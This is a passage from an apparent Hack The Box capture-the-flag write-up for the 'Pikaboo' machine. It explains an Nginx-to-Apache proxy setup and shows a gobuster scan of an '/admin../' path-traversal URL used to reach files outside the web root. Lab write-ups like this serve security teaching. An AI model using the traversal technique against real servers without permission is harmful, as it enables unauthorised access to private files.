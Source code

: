 It's an interesting static site:

![pikaboo-pokatex](/assets/images/2021-11-14-13-09-10.png)

There isn't anything of note on the main pages, but clicking on the admin link takes us to a login box. If we cancel that we end up here:

![pikaboo-unauthorized](/assets/images/2021-11-14-13-10-13.png)

This is because our nmap scan only found Nginx running on port 80, but here we have Apache on port 81. The localhost IP of 127.0.0.1 tells us that we are being passed locally within the box from port 80 to 81 when accessing this page.

Some searching around found [this](https://book.hacktricks.xyz/pentesting/pentesting-web/nginx) from Hacktricks which explains a local file vulnerability which allows us to read files outside of the web root.

Let's scan using that to look for anything useful:

```sh
┌──(root💀kali)-[~/htb/pikaboo]
└─# gobuster dir -t 100 -u http://pikaboo.htb/admin../ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://pikaboo.htb/admin../
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/11/14 16:57:07 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 401) [Size: 456]
/javascript           (Status: 301) [Size: 314] [--> http://127.0.0.1:81/javascript/]
```
